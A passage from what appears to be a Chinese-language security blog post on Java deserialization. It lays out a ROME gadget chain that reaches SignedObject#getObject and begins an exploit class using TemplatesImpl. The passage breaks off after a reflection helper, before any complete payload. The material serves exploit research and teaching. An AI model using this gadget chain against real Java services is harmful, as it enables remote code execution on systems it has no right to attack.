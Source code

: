 [![](assets/1709112106-122902986a23b8b228599104aa34a8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195531-1b9fb9ea-d567-1.png)

那么既然做到了手动触发，那现在的任务就是进行 getter 方法的调用，那其实思路也很清晰，找能够调用 getter 方法的链，刚好也总结一下常见调用 getter 的方法有哪些吧

### getter 触发链分析

#### Rome(HashCode)

利用链

```bash
hashmap#readObject() -> ObjectBean#hashcode() -> EqualsBean#javabeanHashCode() -> ToStringBean#toString()->SignedObject#getObject()
```

EXP

```bash
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;

public class Sign_RomeToStringBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

```